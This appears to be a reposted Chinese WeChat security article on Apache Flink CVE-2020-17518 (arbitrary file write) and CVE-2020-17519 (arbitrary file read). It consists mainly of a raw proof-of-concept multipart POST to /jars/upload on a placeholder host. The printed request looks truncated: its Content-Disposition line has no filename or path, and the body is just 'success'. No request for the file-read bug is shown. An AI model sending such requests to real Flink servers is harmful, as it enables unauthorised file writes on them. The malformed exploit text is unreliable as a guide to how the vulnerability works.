 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-OFaYj_C_su7rT965qztVg)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1SDX2UByRxEBNEAniadkdnFib1CqWiaWpQBIabKp1JwtpEzrX6uOcdiazdhBu8ibNibkccBfrEdO3fULqQ/640?wx_fmt=png)

‍

CVE-2020-17518: 文件写入

攻击者利用 REST API，可以修改 HTTP 头，将上传的文件写入到本地文件系统上的任意位置（Flink 1.5.1 进程能访问到的）

CVE-2020-17519: 文件读取

Apache Flink 1.11.0 允许攻击者通过 JobManager 进程的 REST API 读取 JobManager 本地文件系统上的任何文件（JobManager 进程能访问到的）

POC：

```
POST /jars/upload HTTP/1.1
Host: IP:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 189

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; 

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```